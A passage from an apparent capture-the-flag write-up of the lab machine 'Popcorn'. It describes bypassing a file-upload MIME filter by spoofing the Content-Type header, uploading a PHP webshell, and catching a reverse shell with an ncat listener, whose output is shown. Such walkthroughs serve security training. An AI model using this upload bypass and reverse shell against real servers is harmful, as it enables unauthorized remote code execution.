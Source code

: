 As seen above, there were some basic MIME and/or file extension filters in place. After some tampering, I learned a weak MIME content type filter was in place. However, after bypassing the MIME content type filter, I realized that the file extensions weren't being checked which is very important for securing PHP applications from remote code execution.

![](/assets/images/htb-popcorn/popcorn-webshell-upload-success.png)

Notice how I only needed to change the `Content-Type` header to represent PNG content to bypass the MIME checking filter. From the response, it looked like my PHP webshell was successfully uploaded!

At this point, I needed the popcorn host to execute my PHP webshell to connect back to my netcat listener. I simply clicked on the placeholder for where my torrent thubnail was supposed to be uploaded to get my browser to send a web request to my webshell which in turn would make the web server execute it:

![](/assets/images/htb-popcorn/popcorn-execute-webshell.png)

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:53290.
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 20:03:33 up 27 min,  0 users,  load average: 0.00, 0.00, 0.00
 USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 /bin/sh: can't access tty; job control turned off
 $
```
